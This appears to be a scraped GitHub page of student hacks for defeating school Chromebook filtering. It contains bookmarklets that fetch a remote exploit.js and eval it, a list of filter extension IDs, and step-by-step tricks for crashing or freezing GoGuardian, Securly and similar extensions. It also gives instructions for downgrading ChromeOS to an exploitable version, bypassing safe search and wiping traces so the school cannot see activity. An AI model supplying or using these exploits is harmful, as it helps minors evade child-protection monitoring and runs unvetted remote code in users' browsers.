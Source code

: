 # LTBeef.Hack
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwor...}())
Make a bookmark put this code in and click the bookmark twice.

javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
Go to github.com/BizmoFunions895 for more

Texual Form Tutorial:
1: Go onto the blockers chrome-extension:// find them above.
2: Bookmark the extension page (bookmark A) if you wish. Then, bookmark chrome://kill (B) and chrome://hang (C).
3: While on the extension page (A), click the chrome://kill bookmark (B). The page should crash. You should already have the next step prepared.
4: Instantly start spamming chrome://hang (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or ctrl+R). You should have reloaded within one or two seconds of killing the page.
5: If the extension page (bookmark A) no longer loads, then LTMEAT worked!


Template URL:
chrome-extension://extension_id_here_please/manifest.json

Extension ID’s:
GoGuardian: haldlgldplgnggkjaafhelgiaglafanh
Securly: joflmkccibkooplaeoinecjbmdebglab
Blocksi: pgmjaihnmedpcdkjcgigocogcbffgkbn
iBoss: kmffehbidlalibfeklaefnckpidbodff
Fortiguard: igbgpehnbmhgdgjbhkkpedommgmfbeao
Cisco Umbrella: jcdhmojfecjfmbdpchihbeilohgnbdci
NetRef: khfdeghnhlpdfeenmdofgcbilkngngcp
ContentKeeper: jdogphakondfdmcanpapfahkdomaicfa
Hapara: kbohafcopfpigkjdimdcdgenlhkmhbnc
Smoothwall: jbldkhfglmgeihlcaeliadhipokhocnm
Linewize: ddfbkhpmcdbciejenfcolaaiebnjcbfc
LANSchool: baleiojnjpgeojohhhfbichcodgljmnj 
If your blocker is not on this list: go to chrome://extensions, details on your blockers extension, then copy the code in the url (after chrome://extensions/?id=).

B: chrome://kill
C: chrome://hang


nowgg.nl roblox link


go to https://cros.tech/
and find your board and download the 114 version (if there is no option for 114 then your screwed)
most chromebooks will let you downgrade to 114 on 115
balenaEtcer to a usb
and recover down to 114 

if you are on v117 - you can only downgrade to v117
if you are on v116-v112 - you can only downgrade to v112
(unless on edge case board)
DONT ASK ABOUT THESE THINGS
Forced Updates
Not having a 114 image on cros.tech (try and find one)
On version 116+
No skidding



Open chrome://extensions in a new tab. Keep this page open.
Go to the settings page for the extension you want to disable.











On this page, click the "freeze extension" button.
Back on the chrome://extensions page, spam the "allow access to file URLs" switch for a few seconds.
The extension should now be temporarily disabled. For this effect to persist, flip the "allow access to file URLs" again every few minutes, or if pages start getting blocked again.
You may also need to reopen this page every once in a while to prevent an unavoidable memory leak from crashing the system.




1: Sign into school account
2: Go to any unblocker that is unbocked still
3: Next go to (https://www.google.com/?safe=active&ssui=on)
Google
Search the world's information, including webpages, images, videos and more. Google has many special features to help you find exactly what you're looking for.
4: Then take https://www.google.com/?safe=active&ssui=on and replace the =on to =off
Google
Search the world's information, including webpages, images, videos and more. Google has many special features to help you find exactly what you're looking for.
then copy and past it into a unblocker and then you can get into google without haveing it loading for a hella long time
5: when you get there you can then go to the Sign In button and add a home account....
6: when your done using your home account be sure to wipe the memory and cookies, etc. because they can still see it.
If you dont wipe your history the school has a chance to figure out what computer use or did what.
For example if my computer mac number was 90:CC:DF:68:8D:5A schools will be able to trace your computer throught the child protection app they have on your chomputers






https://nppe.glitch.me/

















Basically you can make as much links as you want and so far its been working for me

Make sure you have a github acc
Go to https://github.com/thegreatestgiant/novnc
Press code then click code then codespaces
Open the thing up and wait till stuff loads in
Click on Ports then right click "6080"
Click on the Port Visibility and make sure its public
Then right click again and open in browser
Continue and password is "vscode"
Left click and open a tab thingy
Boom shackalaka should work if not idrk 

mahoxo9049@hapincy.com
CodePen - Tessellation #1 (Hexagon background with 0 HTML
https://temp-mail.org/en/view/651bc39fbfb4f8011a52c54d

